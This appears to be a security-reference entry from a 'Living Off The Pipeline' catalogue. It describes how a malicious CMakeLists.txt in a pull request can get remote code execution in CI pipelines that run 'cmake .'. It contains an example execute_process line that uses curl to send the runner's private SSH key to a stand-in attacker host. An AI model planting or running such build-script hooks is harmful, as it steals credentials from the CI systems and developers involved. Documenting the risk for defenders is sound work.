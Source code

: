 ```yaml
---
layout: tool
title: cmake
tags: [cli, config-file, eval-sh]
references:
- https://cmake.org/cmake/help/latest/command/execute_process.html
files: [CMakeLists.txt]
---
```


## Living Off The Pipeline - cmake

`CMake` is a cross-platform build system generator. It uses a script file named `CMakeLists.txt` to define a project's build process. This script file is a powerful vector for "Living Off The Pipeline" (LOTP) attacks.

### First-Order LOTP Tool

`cmake` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by design, as its primary configuration file is an executable script.

#### Malicious Primitive: Remote Code Execution (RCE)

The `CMakeLists.txt` file is not just a data file; it is a script that is interpreted and executed by the `cmake` command. This script can contain the `execute_process()` command, which is used to run arbitrary shell commands.

An attacker can add a malicious `execute_process()` command to the `CMakeLists.txt` file in their pull request. When a CI/CD pipeline runs the standard `cmake .` command to configure the project, it will execute the attacker's payload.

### Real-World Attack Scenario

1.  **Attacker's PR:** An attacker submits a pull request with a modified `CMakeLists.txt` file containing a malicious `execute_process` command.
    ```cmake
    # CMakeLists.txt
    cmake_minimum_required(VERSION 3.10)
    project(LegitProject)

    # Malicious payload that runs during the configuration step
    execute_process(COMMAND sh -c "curl --data-binary @$HOME/.ssh/id_rsa http://attacker.com/")

    # Legitimate build targets
    add_executable(my_app main.cpp)
    ```

2.  **Vulnerable Workflow:** The pipeline contains a completely standard set of commands to configure and build a CMake-based project.
    ```yaml
    - name: Configure project
      run: cmake .
    - name: Build project
      run: make
    ```

3.  **Execution:**
    *   The `cmake .` command is executed.
    *   CMake parses the `CMakeLists.txt` file and immediately executes the `execute_process()` command.
    *   The attacker's `curl` command runs, exfiltrating sensitive files from the CI runner. The RCE happens during the *configuration* phase, before any compilation begins.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is hidden inside the project's main build script.
